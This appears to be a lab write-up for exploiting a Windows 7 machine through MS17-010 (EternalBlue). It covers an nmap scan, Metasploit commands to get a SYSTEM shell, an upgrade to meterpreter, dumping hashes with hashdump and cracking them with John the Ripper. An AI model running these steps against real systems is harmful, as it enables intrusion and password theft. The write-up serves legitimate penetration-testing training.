 #Windows #EternalBlue #MS17-010

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.33.86
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 135/tcp msrpc Microsoft Windows RPC

![image](https://user-images.githubusercontent.com/99097743/171191732-73be2919-4881-4759-bf5a-eeb8b8460a9a.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191815-76b01734-be5b-4a75-b7d8-deaf07334a2d.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191940-4d44c027-59e1-45af-9635-fa1d279731d2.png)

* 3389/tcp open  ssl/ms-wbt-server?

![image](https://user-images.githubusercontent.com/99097743/171192028-c0d68993-f0d4-435b-bf66-4ecbf95e6992.png)


**MS17-010 KNOWLEDGE BASE**

Reference: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue

ms17_010_eternalblue is a remote exploit against Microsoft Windows, originally written by the Equation Group (NSA) and leaked by Shadow Brokers (an unknown hacking entity). It is considered a reliable exploit and allows you to gain access not only as SYSTEM - the highest Windows user mode privilege, but also full control of the kernel in ring 0. In modern day penetration tests, this exploit can be used in internal and external environments.

As far as remote kernel exploits go, this one is highly reliable and safe to use.

The check command of ms17_010_eternalblue is also highly accurate, because Microsoft's patch inadvertently added an information disclosure with extra checks on vulnerable code paths.

This exploit works against a vulnerable SMB service from one of these Windows systems:

* Windows XP x86 (All Service Packs)
* Windows 2003 x86 (All Service Packs)
* Windows 7 x86 (All Service Packs)
* Windows 7 x64 (All Service Packs)
* Windows 2008 R2 x64 (All Service Packs)
* Windows 8.1 x64
* Windows Server 2012 R2 x64
* Windows 10 Pro x64 (< Version 1507)
* Windows 10 Enterprise Evaluation x64 (< Version 1507)

To determine whether the machine is vulnerable, you will have to either examine the system's patch level, or use a vulnerability check.

**GAIN FOOTHOLD**

We can now use `metasploit` to gain access. Here are the steps:

```sh
msfconsole
search eternalblue
use windows/smb/ms17_010_eternalblue
show options
set RHOSTS
set LHOST
run
```

![image](https://user-images.githubusercontent.com/99097743/171214941-056ec471-839f-4e63-829a-d382224b9803.png)


**ESCALATE**

We need to upgrade the shell from the command line module to a more functional meterpreter. 

First, let's background the session by clicking `CTRL+Z`. You can see the active session with the `sessions` command:

![image](https://user-images.githubusercontent.com/99097743/171216893-e2977fe8-1f18-4294-bfca-a7b113bd62a4.png)

Now we need search for `shell_to_meterpreter` module

![image](https://user-images.githubusercontent.com/99097743/171218485-79849cf9-a5c1-42dc-9387-c2c2e0673a92.png)

Please make sure the session info is updated: `set SESSION 1`

![image](https://user-images.githubusercontent.com/99097743/171218893-6f197426-71fd-43b4-94fb-0e82ba1cc9e8.png)

We can now list the sessions and select Session 2 for the rest of the lab:

![image](https://user-images.githubusercontent.com/99097743/171219818-c114247f-de7c-48b7-86fc-38e6e2590750.png)

**CRACKING**

`hashdump` command will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![image](https://user-images.githubusercontent.com/99097743/171225571-382756c2-7d5f-4b85-aa8c-8b512b4f4a50.png)

We can crack the password using **John the Ripper**. Please make sure to include `--format=NT` here:

![image](https://user-images.githubusercontent.com/99097743/171227324-e3b7b13c-b2d5-49b6-b06e-0c81980c7a51.png)

**FLAGS**

Flag #1

![image](https://user-images.githubusercontent.com/99097743/171230327-a4df5672-e3f5-44f5-967c-46bef0cd094c.png)

Flag #2: Located where passwords are stored within Windows (SAM)

![image](https://user-images.githubusercontent.com/99097743/171230730-18af3044-fd5e-4208-b8bf-d8e83fe77f33.png)


